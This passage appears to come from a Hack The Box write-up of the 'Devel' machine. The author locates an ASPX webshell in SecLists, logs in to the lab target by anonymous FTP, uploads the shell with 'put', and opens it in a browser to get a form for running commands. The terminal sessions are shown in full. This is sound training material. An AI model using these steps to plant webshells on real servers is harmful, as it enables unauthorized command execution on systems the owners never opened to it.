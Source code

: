 Seeing that this server is running ASP.NET means I will likely need a .aspx webshell when I get to that.

So, with a simple google search for `aspx` webshell, I found the one that comes with SecLists. I found it and copied it to my local directory.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Devel]
└─$ locate cmd.aspx
/usr/share/davtest/backdoors/aspx_cmd.aspx
/usr/share/wordlists/SecLists-master/Web-Shells/FuzzDB/cmd.aspx
                                                                                                                                                            
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Devel]
└─$ cp /usr/share/wordlists/SecLists-master/Web-Shells/FuzzDB/cmd.aspx .

┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Devel]
└─$ ls             
cmd.aspx  gobuster.txt  nmap  test.html  welcome.png
```

Now, I transferred the `cmd.aspx` file to the `ftp` server using the `put` command

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Devel]
└─$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:darshan): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> put cmd.aspx
local: cmd.aspx remote: cmd.aspx
229 Entering Extended Passive Mode (|||49167|)
125 Data connection already open; Transfer starting.
100% |***************************************************************************************************************|  1442       19.64 MiB/s    --:-- ETA
226 Transfer complete.
1442 bytes sent in 00:00 (2.95 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||49168|)
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
01-29-23  03:01PM                 1442 cmd.aspx
03-17-17  04:37PM                  689 iisstart.htm
03-17-17  04:37PM               184946 welcome.png
```

Now I visited http://10.10.10.5/cmd.aspx and I get a form that I could use to run commands on the web-page:

![dvl-4](https://user-images.githubusercontent.com/87711310/215329895-a495d0b4-216a-416d-a0e5-479ffa0217b0.png)
